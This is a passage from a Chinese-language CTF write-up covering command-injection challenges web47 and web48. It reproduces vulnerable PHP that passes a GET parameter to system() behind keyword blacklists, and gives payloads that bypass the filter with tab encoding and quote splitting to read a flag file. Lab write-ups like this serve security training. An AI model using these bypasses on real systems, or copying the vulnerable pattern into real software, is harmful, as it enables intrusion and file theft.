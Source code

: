 ```
}
```

这次增加了对数字,$和*的过滤。

payload:?c=tac%09fla''g.php||



### web47

```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 21:59:23
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```

啊这……tac无所畏惧

payload:?c=tac%09fl''ag.php||



### web48

```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 22:06:20
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```